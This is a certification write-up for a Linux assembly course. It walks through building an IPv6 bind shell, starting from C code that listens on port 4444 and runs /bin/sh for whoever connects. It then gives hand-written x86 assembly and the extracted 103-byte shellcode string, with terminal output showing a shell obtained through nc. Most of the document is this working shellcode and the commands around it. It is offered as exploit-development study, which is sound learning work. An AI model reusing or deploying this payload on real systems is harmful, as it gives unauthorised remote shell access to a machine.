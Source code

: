### Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

### IPv6

Lets try to change the code in order to listen on all IPv6 interfaces.

In order to better understant IPv6 structure, let's change the C code:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);
	bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	listen(my_socket, 0);

	int my_accept = accept(my_socket, NULL, NULL);

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_accept, i);

	execve("/bin/sh", NULL, NULL);

	return 0;
}
```
Let's compile and run the program in order to check it.

```
$ gcc bind_shell_ipv6.c -o C-bind6
$ ./C-bind6 
```

In another terminal:

```
$ netstat -laput |grep "4444"
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      6358/C-bind6
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

### ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using in6addr_any

####  *sockaddr_in6* structure

Using the manual, *sockaddr_in6* structure is easy to understand:

```
   Address format
           struct sockaddr_in6 {
               sa_family_t     sin6_family;   /* AF_INET6 */
               in_port_t       sin6_port;     /* port number */
               uint32_t        sin6_flowinfo; /* IPv6 flow information */
               struct in6_addr sin6_addr;     /* IPv6 address */
               uint32_t        sin6_scope_id; /* Scope ID (new in 2.4) */
           };
```

Regarding the previsous shellcode, the length of *sin6_addr* is different (this will be handle later) and *sin6_flowinfo* must be pushed. This field was not used in the C code, lets fill it with null butes. A *uint32_t* variable has the size of a register, so a null register will be pushed.

The size of *sockaddr_in6* is easy to get using C code:
```
$ cat sizeof.c
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);

	printf("%i\n", sizeof(my_sockaddr));

	return 0;
}
$ gcc sizeof.c -o sizeof
$ ./sizeof 
28
```

In IPv4 previous shellcode 0xa will be replace by 0x1c:

```
push 0x1c ;previously push 0xa
```

#### AF_INET6

AF_INET6 value is easy to find:
```
$ for elmt in $(locate socket.h); do grep AF_INET6 $elmt; done
#define AF_INET6	10	/* IP version 6			*/
```
In IPv4 previous shellcode 0x2 will be replace by 0xa:

```
push word 0xa ;previously push word bx
```

#### *in6addr_any*

*in6addr_any* value is easy to find:

```
$ for elmt in $(locate in.h); do grep -i IN6ADDR_ANY $elmt; done
extern const struct in6_addr in6addr_any;        /* :: */
#define IN6ADDR_ANY_INIT { { { 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 } } }
```

We will need to push a null register four times.

#### Shellcode change

So in our previous code some changed are done:

```
push word 0xa ;previously push word bx
push 0x1c ;previously push 0xa
```

Now for *in6addr_any*, lets find its value:




#### Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;bind
	xor eax, eax
	push eax
	push eax
	push eax
	push eax
	push eax
	push word 0x5c11
	push word 0xa
	mov edx, esp

	mov al, 0x66
	inc ebx
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80


	;listen
	xor eax, eax
	mov al, 0x66
	mov bl, 4
	push eax
	push edi
	mov ecx, esp
	int 0x80

	;accept
	mov al, 0x66
	inc ebx
	xor ecx, ecx
	push ecx
	push ecx
	push edi
	mov ecx, esp
	int 0x80

	xchg   ebx,eax
	
	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx,
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

#### Compilation


Lets compile everything:

```
$ bash compile.sh bind_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh bind_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x43\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\xb3\x04\x50\x57\x89\xe1\xcd\x80\xb0\x66\x43\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  103
```

And check if everything is working in another terminal:
```
$ netstat -laput |grep 4444
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      9469/shellcode  
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automize the port configuration.

